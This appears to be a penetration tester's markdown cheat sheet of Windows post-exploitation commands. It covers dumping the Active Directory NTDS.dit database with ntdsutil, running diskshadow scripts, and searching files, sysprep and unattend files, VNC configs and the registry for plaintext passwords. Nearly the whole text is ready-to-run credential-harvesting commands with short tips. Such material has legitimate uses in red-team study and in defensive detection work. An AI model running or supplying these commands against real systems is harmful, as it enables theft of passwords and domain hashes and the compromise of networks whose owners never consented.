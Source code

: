 Execute commands using diskshadow.exe from a prepared diskshadow script.
```
diskshadow.exe /s c:\test\diskshadow.txt
```
## ntdsutil
https://lolbas-project.github.io/lolbas/OtherMSBinaries/Ntdsutil/

Dumping of Active Directory NTDS.dit database into folder
```
ntdsutil.exe "ac i ntds" "ifm" "create full c:\" q q
```

# clear text Passwords
```
findstr /si password *.txt *.ini *.config *.xml
```
Look through output. most will help files, but you might get lucky and find an actual password file. 

# search for unattended.xml files
```
Get-Childitem –Path C:\ -Include unattended.xml -Recurse -ErrorAction SilentlyContinue
```

# Sysprep:
1. c:\sysprep.inf			    [Clear Text Password]
2. c:\sysprep\sysprep.xml		[Base64 Encoded Password]


## Find all those strings in config files.
1. web.config
2. php.ini
3. httpd.conf
4. access.log
5. vnc.ini (easy to decrypt)
6. ultravnc.ini (easy to decrypt)

```
dir /s *pass* == *cred* == *vnc* == *.config*
dir /s *pass*
dir /s *cred*
dir /s *vnc*
dir /s *.config
findstr /si password *.xml *.ini *.txt
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

## Find all passwords in all files.
```
findstr /spin "password" *.*
findstr /si password *.txt | *.xml | *.ini | *.rdp | *.py | *.pl
```
